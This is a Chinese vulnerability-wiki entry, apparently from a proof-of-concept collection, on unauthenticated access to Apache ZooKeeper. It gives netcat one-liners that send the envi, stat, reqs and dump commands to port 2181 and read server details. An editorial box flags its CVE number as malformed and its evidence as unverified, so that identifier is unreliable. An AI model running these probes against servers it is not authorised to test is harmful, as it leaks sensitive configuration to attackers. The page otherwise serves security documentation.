

# Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2181可达且相关4lw命令启用，命令允许集随版本配置变化
- 证据范围：envi等管理信息命令与znode数据ACL是不同控制面，不能以envi返回证明任意数据读写

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- CVE序号只有三位格式不合法，不能猜补数字
- reqs疑应reqs/reqs功能须官方核对；版本仅产品名
- 漏洞miao'shu转码残留，缺4lw白名单/ACL分别缓解
- 应分类配置风险而非固定CVE

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞miao'shu

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

```
Apache ZooKeeper
```

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```



其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```


---

> 来源：Threekiii/Awesome-POC
